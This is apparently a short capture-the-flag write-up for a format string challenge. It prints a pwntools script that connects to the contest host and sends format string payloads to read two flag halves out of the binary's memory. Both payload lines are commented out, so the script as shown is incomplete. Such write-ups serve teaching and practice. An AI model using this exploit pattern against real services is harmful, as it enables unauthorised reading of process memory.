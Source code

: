 Okay, as the description suggests, the challenge is about a format string attack.
I used Ghidra to disassemble the binary. 


![](https://github.com/r4ksh1t0011/CTF-Writeups/blob/pngs/flag.png)<br> 
<br>

Thus, we found the respective addresses where flag_1 and flag_2 are located. Now, we only need to extract the data from that address which can be done by exploiting the format string vulnerability. Here's a simple script for it.

```
#!/usr/bin/env python
from pwn import *
flag1 = 0x804a02c
flag2 = 0x804a040
port =  18137
host = "hack.scythe2021.sdslabs.co"
#target = process("./f_me")   use it to test the exploit locally

target=remote(host,port)

# First send this payload, you'll get the first part of the flag


#payload = p32(flag1) +('%08x '*6+'%s').encode()

# After you get the first part of the flag, use this payload to get the second part. 
#payload = p32(flag2) +('%08x '*6+'%s').encode()
target.recvuntil("ploxx")
target.sendline(payload)
target.interactive()
```
